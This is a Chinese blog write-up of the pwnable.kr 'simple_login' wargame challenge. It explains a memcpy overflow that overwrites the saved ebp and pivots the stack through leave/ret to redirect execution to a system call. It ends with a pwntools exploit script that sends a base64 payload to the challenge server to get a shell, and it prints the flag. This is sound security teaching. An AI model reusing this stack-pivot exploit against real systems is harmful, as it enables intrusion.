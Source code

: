 ```yaml
---

layout: post

title: 'pwnable.kr之simple_login'

date: '2017-07-13'

header-img: "img/home-bg.jpg"

tags:
     - pwnable.kr
author: 'De4dCr0w'

---
```


<!-- more -->

### 反汇编后的main函数 ###

![](http://i.imgur.com/u6DHsu7.png)

漏洞发生的地方在auth函数

### 反汇编后的auth函数 ###

![](http://i.imgur.com/clCH77f.png)

memcpy可能造成缓冲区溢出，auth函数通过memcpy复制内容到一个int类型的局部变量中。  
memcpy函数的原型为：  

> void *memcpy(void *dest, const void *src, size_t n);  
> 功能：从源src所指的内存地址的起始位置开始拷贝n个字节到目标dest所指的内存地址的起始位置中
 
反汇编代码如下：

![](http://i.imgur.com/wEUoxRa.png)

所以[esp+8]保存的是要复制的字节数，[esp+4]保存的是源地址，[ebp+var_14+0Ch]=[ebp-14h+0Ch]=[ebp-8]保存目的地址。因为前面有Base64解码后判断长度是否大于12，大于则提示Wrong Length，所以能输入的字符串长度为12，所以能溢出的只有四个字节，即ebp。  
要深刻理解leave和ret指令的含义：  

> leave指令等同于下面两条命令（32位）  
> mov esp, ebp  
> pop ebp;该命令会将esp中的值给ebp，同时esp自身会+4  

**该指令执行完之后结果为：esp=ebp+4,ebp=[ebp]**
> ret指令等同于pop eip  
> 实际上pop出来就是现在的栈顶，即esp指向的内容。  

可以看到实际程序中有两个连续的leave ret，分别在auth函数和main函数中：  

![](http://i.imgur.com/1MJE2Fp.png)

第一个leave执行前：  

![](http://i.imgur.com/zGly5Y1.png)

第一个leave执行后：

![](http://i.imgur.com/Tdw8H5R.png)

leave语句执行后ebp的值变为原先储存的值，esp的值变为原来ebp的值加4，同理：  
第二个leave执行前：

![](http://i.imgur.com/2SZXKpx.png)

第二个leave执行后：

![](http://i.imgur.com/iz1Xrrs.png)

所以攻击思路为：输入的12个字节的最后四个字节为input的地址：  

![](http://i.imgur.com/CsHpsbZ.png)  

即覆盖了ebp，ebp保存的是上一个栈帧的esp，（最开始压栈的**mov ebp， esp**操作）。这里覆盖的是main函数的ebp（因为auth函数进入时push ebp，push进来的是main函数的ebp值），所以在main函数时的esp还是正常的，ebp已经是我们覆盖的值了。所以第二次leave后，esp指向的是input的第4~7个字节，然后ret，弹出这四个字节，所以这四个字节要填充调用system的地址。  
总的来说就是通过控制ebp来控制esp，进而控制eip，这可以在offbyone漏洞中利用，通过溢出ebp来完成攻击。

例如：[Linux平台OffByOne(基于栈)漏洞](http://bbs.pediy.com/thread-218997.htm)

### poc.py ###

	from pwn import *
	import base64
	
	context.log_level = 'debug'
	#p = process('./login')
	p = remote('pwnable.kr',9003)
	system_addr = 0x08049278
	input_addr = 0x0811EB40
	fill_data = 0xdeadbeaf
	
	p.recvuntil("Authenticate : ")
	
	payload = p32(fill_data)+p32(system_addr)+p32(input_addr)
	payload = base64.b64encode(payload)
	
	#gdb.attach(p)
	
	p.sendline(payload)
	
	p.interactive()



>flag: control EBP, control ESP, control EIP, control the world~
